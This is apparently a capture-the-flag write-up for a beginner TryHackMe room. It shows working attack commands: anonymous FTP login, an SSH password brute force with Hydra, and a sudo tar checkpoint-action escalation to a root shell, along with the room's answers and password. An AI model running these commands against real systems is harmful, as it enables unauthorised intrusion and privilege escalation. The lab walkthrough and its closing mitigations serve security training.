


# Bounty Hacker


> A beginner-friendly box themed around *Cowboy Bebop*: anonymous FTP leaking a task list and a password dictionary, SSH brute-forcing, and a classic GTFOBins `sudo tar` privilege escalation.

**Task:** answer the room's questions while compromising the box, ending with the root flag.

**Room link:** https://tryhackme.com/room/cowboyhacker

**Questions to answer:**
1. Who wrote the task list?
2. What service can you bruteforce with the text file found?
3. What is the user's password?

Also find: `user.txt`, `root.txt`

---

## 1. Verify the machine is running

```bash
ping -c 3 10.129.172.172
```

- `-c 3` sends exactly 3 ICMP echo requests and then stops, instead of pinging forever.

```
PING 10.129.172.172 (10.129.172.172) 56(84) bytes of data.
64 bytes from 10.129.172.172: icmp_seq=1 ttl=62 time=15.5 ms
64 bytes from 10.129.172.172: icmp_seq=2 ttl=62 time=9.20 ms
64 bytes from 10.129.172.172: icmp_seq=3 ttl=62 time=12.7 ms

--- 10.129.172.172 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 9.196/12.470/15.484/2.573 ms
```

0% packet loss confirms the machine is up and reachable.

## 2. Port scanning with Nmap

```bash
nmap -sC -sV -v 10.129.172.172
```

- `-sC` runs Nmap's **default script set** (`--script=default`): safe, non-intrusive NSE scripts that grab extra banner/version/config info — here that's `ftp-anon` (checks for anonymous FTP login) and `ftp-syst`/`ssh-hostkey` (service status and key fingerprints).
- `-sV` enables **version detection**, so instead of just "port 21 is open" Nmap tries to identify the exact product and version (e.g. `vsftpd 3.0.5`).
- `-v` is **verbose** output — it prints scan-progress details (NSE phases, per-port discovery) as they happen instead of only the final table.
- No `-p` is given, so Nmap scans its default list of the 1000 most common TCP ports.

```
PORT      STATE  SERVICE         VERSION
21/tcp    open   ftp             vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
22/tcp    open   ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http            Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Three TCP ports are open:

| Port | Service | Version |
|------|---------|---------|
| 21   | FTP     | vsftpd 3.0.5 (anonymous login allowed) |
| 22   | SSH     | OpenSSH 8.2p1 (Ubuntu) |
| 80   | HTTP    | Apache 2.4.41 (Ubuntu) |

The `ftp-anon` NSE result is the most important line here — it already tells us anonymous FTP login is accepted, which becomes our entry point in a moment.

## 3. Web enumeration

Visiting port 80 in the browser shows a themed *Cowboy Bebop* landing page: a still of the Bebop crew (Spike, Jet, Ed, Faye) with a short dialogue underneath that sets up the room's story — Jet asking us to "hack any computer in the system" and get root, Ed pointing out the "device" is on "your computer", and Faye staying characteristically unimpressed. It's flavour text only — there's no form, no login, no interactive element on the page itself.



To check for anything hidden, the page was fuzzed for extra directories/files:

```bash
ffuf -u "http://10.129.172.172///FUZZ" \
     -w /home/verykraken/GitClones/SecLists/Discovery/Web-Content/combined_directories.txt:FUZZ \
     -ic -c
```

- `-u "http://.../FUZZ"` is the target URL, with `FUZZ` marking the position where each wordlist entry is substituted.
- `-w path:FUZZ` points to the wordlist (SecLists' combined directory list) and binds it to the `FUZZ` keyword.
- `-ic` ("ignore comments") skips comment lines in the wordlist.
- `-c` colourises the output for readability.

Out of ~128k requests, only `images`, `javascript` and `index.html` returned anything other than `403 Forbidden`, and none of them lead anywhere useful. Reviewing the page source also turned up nothing. **Web enumeration here is a dead end by design** — the hint is meant to push us toward the other open service: FTP.

## 4. Anonymous FTP access

Since Nmap already flagged `Anonymous FTP login allowed`, we try logging in with the standard anonymous credentials:

```bash
ftp 10.129.172.172
```

```
Connected to 10.129.172.172.
220 (vsFTPd 3.0.5)
Name (10.129.172.172:verykraken): anonymous
230 Login successful.
```

- Username `anonymous` with any (often blank) password is the FTP convention for public, unauthenticated access — a server is only vulnerable to this if the admin explicitly enabled it, which is itself a misconfiguration on anything meant to be private.

```bash
ftp> ls
```
```
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

Two files are sitting in the FTP root. Pulling `task.txt` down and reading it:

```bash
ftp> get task.txt
ftp> !cat task.txt
```
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

The signature at the bottom names the author directly.

**Q1 — Who wrote the task list?**
**ANSWER: lin**

`locks.txt` is a plain list of ~26 candidate passwords (all stylised variants of "Red Dragon Syndicate"), clearly meant to be used as a brute-force wordlist rather than real content.

**Q2 — What service can you bruteforce with the text file found?**
We already know SSH (port 22) is open and `lin` is a plausible username — `locks.txt` is the matching password list.
**ANSWER: ssh**

## 5. Brute-forcing SSH with Hydra

```bash
hydra -l lin -P locks.txt ssh://10.129.172.172
```

- `-l lin` fixes a single **l**ogin name to try (uppercase `-L` would instead take a file of usernames).
- `-P locks.txt` supplies the **p**assword wordlist recovered from the FTP server (uppercase `-P` = file of passwords; lowercase `-p` would be a single password).
- `ssh://10.129.172.172` is the target service — no port is needed here since SSH is listening on the default 22.

```
[22][ssh] host: 10.129.172.172   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
```

A valid password is found in seconds — a 26-entry wordlist is trivially small once you've narrowed the username down from leaked data.

**Q3 — What is the user's password?**
**ANSWER: RedDr4gonSynd1cat3**

## 6. Logging in and grabbing the user flag

```bash
ssh lin@10.129.172.172
```

After accepting the host key and entering the password, we land on the box as `lin`:

```
lin@ip-10-129-172-172:~/Desktop$ ls
user.txt
lin@ip-10-129-172-172:~/Desktop$ cat user.txt
THM{...}
```

**Q4 — What's the user flag?**
**ANSWER:** the string printed by `cat user.txt` above (unique per TryHackMe instance — shown here as `THM{...}` since flags are randomised per deployment).

## 7. Enumerating for privilege escalation

```bash
sudo -l
```

- `sudo -l` **l**ists the commands the current user is permitted to run via `sudo`, without actually running anything. It prompts for `lin`'s own password (not root's), since `sudo` needs to re-verify the calling user.

```
User lin may run the following commands on ip-10-129-172-172:
    (root) /bin/tar
```

`lin` can run `tar` as root — on its own this looks harmless (tar just archives files), but it's a well-known GTFOBins entry because `tar` supports executing arbitrary commands via `--checkpoint-action`.


## 8. Privilege escalation via tar (GTFOBins)



[GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) documents that `tar`'s checkpoint feature — meant to run a user-supplied command between checkpoints during long archiving jobs — can be abused to execute an arbitrary shell command. Since `tar` itself is running as root here, that shell inherits root's privileges:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- `sudo` runs `tar` as root (allowed `(root) /bin/tar`, per `sudo -l` above).
- `-cf /dev/null /dev/null` tells `tar` to **c**reate an archive, writing the output to `/dev/null` (i.e. we don't actually care about the archive — this is just a vehicle to trigger the checkpoint logic) while archiving `/dev/null` as the (dummy) input.
- `--checkpoint=1` makes `tar` fire its checkpoint action after every 1 archived record, instead of the default of every 10.
- `--checkpoint-action=exec=/bin/sh` tells `tar` to **exec**ute `/bin/sh` as that checkpoint action. Since `tar` is running as root, the spawned shell is also root.

```
tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
```

We're root. Grab the final flag:

```bash
# cd /root
# cat root.txt
THM{...}
```

**Q5 — What's the root flag?**
**ANSWER:** the string printed by `cat root.txt` above.

Room solved.

## Takeaways

A short, classic chain from public data leakage straight to root:

- **Anonymous FTP left wide open** was the actual way in, not the web server — a reminder to always check *every* open service, not just the one that looks most interesting (port 80 here was a deliberate dead end).
- **Sensitive files on a public FTP share**: a task list casually signed by a real username, sitting next to a password-candidate list, is effectively a leaked credential pair waiting to be brute-forced.
- **Credential reuse / weak passwords**: a tiny, 26-entry wordlist was enough once the username was known — a strong, unique password would have made this brute-force infeasible regardless of wordlist size.
- **Dangerous sudo rules**: granting passwordless (or even password-gated) `sudo` access to `tar` — or any GTFOBins-listed binary capable of spawning a shell or running arbitrary commands — is equivalent to granting full root access.

**Mitigation:**
- Disable anonymous FTP access unless there is a specific, intentional reason to serve public files, and never store credentials, task notes, or other sensitive text on a share anyone can read.
- Enforce strong, unique passwords and rate-limit/lock out repeated authentication failures to blunt brute-force attacks like the Hydra run above.
- Apply least privilege for `sudo` rules: never grant `sudo` access (passwordless or not) to an archiving tool, editor, pager, or any other GTFOBins-listed binary unless absolutely necessary — check https://gtfobins.github.io/ before writing a sudoers rule.